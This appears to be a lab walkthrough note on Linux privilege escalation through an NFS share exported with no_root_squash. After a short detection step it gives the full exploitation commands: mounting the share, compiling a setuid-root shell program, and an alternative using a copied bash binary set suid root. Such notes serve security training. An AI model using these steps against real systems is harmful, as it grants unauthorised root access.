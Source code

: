 #Linux #PrivEsc #NFS #NFSRootSquashing

## **Detection**
Linux VM

1. In command line type: `cat /etc/exports`
2. From the output, notice that “`no_root_squash`” option is defined for the “`/tmp`” export.

## **Exploitation**
Attacker VM

1. Open command prompt and type: `showmount -e MACHINE_IP`
2. In command prompt type: `mkdir /tmp/1`
3. In command prompt type: `mount -o rw,vers=2 MACHINE_IP:/tmp /tmp/1`
4. In command prompt type:
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
```
5. In command prompt type: `gcc /tmp/1/x.c -o /tmp/1/x`
6. In command prompt type: `chmod +s /tmp/1/x
`
Linux VM

1. In command prompt type: `/tmp/x`
2. In command prompt type: `id`

--- 
# **Troubleshooting**

Another way to solve the #NFS exploit (if step 3 does not mount with `vers=2`) without #gcc is this:

On Attacker machine:
1. Open command prompt and type: `showmount -e MACHINE_IP`
2. In command prompt type: `mkdir /tmp/1`
3. In command prompt type: `mount -o rw,vers=3 MACHINE_IP:/tmp /tmp/1`

On Target machine:
4. In command prompt type: `cp /bin/bash /tmp/1`

On Attacker machine:
5. In command prompt type: `sudo chown root:root /tmp/1/bash`
6. In command prompt type : `sudo chmod +sx /tmp/1/bash`

On Target machine:
7. In command prompt type: `/tmp/1/bash -p`
8. In command prompt type: `id`
